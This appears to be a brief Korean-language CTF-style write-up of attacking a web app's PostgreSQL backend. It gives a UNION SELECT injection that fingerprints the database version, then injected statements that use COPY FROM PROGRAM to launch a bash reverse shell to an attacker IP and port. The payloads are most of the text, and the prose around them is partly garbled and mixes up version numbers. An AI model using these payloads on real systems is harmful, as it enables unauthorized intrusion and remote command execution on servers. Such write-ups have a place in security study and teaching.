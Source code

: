 sql injection
#
```
' UNION SELECT NULL, NULL, NULL , NULL, VERSION() --
```
이 SQL 문을 사용하면 이 웹 사이트의 백엔드 데이터베이스가 Postgre임을 알 수 있습니다.SQL 버전 11.5. "Google University"에서 어떤 종류의 reverse shell을 얻을 수 있는지 알아보겠습니다. 우리는 Postgre에서 발견된 exploit에 대해 알게 되었다.버전 11.5의 경우 SQL 버전 9.3이 아직 살아 있습니다. * 메타스플로이트를 사용

`![image](https://user-images.githubusercontent.com/61821641/150574663-24469d46-8cb2-4bc2-89ed-fdd4d3af03c9.png)


`이어서 reverse shell`

```
'; CREATE TABLE cmd_exec(cmd_output text); --
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/<my ip>/1234 0>&1'''; -- 
```

![image](https://user-images.githubusercontent.com/61821641/150575592-27443005-8908-470b-83ec-0d977f32a386.png)

#